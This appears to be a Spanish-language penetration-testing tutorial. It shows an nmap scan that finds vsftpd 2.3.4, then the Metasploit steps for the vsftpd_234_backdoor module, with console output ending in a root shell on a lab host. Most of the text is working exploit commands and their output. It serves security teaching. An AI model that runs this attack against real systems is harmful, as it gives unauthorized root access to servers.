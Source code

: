 # Uso de Metasploit para atacar vsftpd

Correr Nmap para determinar el tipo de servidor FTP presente:

`nmap -p 21 192.168.100.93 -A`  

Lo que nos entrega los siguientes resultados:  

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 19:00 EDT
Nmap scan report for 192.168.100.93
Host is up (0.00080s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.100.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results a/ .
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
```  

Abrir Metasploit con el comando `msfconsole`.  

Dentro de Metasploit buscar `vsftpd 2.3.4`. Se nos despliega un resultado. Podemos cargar ese módulo utilizando `Use 0`.

Con el comando `Show options` se nos despliegan los parámetros necesarios a configurar.  

´´´
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
                                      Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic
´´´  

Agregamos el `RHOST` (la dirección de la víctima).

`set RHOST direccion.de.la.victima`  

Ejecutamos el ataque con `run`.  

A continuación obtenemos un shell remoto como administradores del servidor:  

´´´
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.100.93:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.93:21 - USER: 331 Please specify the password.
[+] 192.168.100.93:21 - Backdoor service has been spawned, handling...
[+] 192.168.100.93:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.100.99:40451 -> 192.168.100.93:6200) at 2022-09-08 19:20:30 -0400

´´´

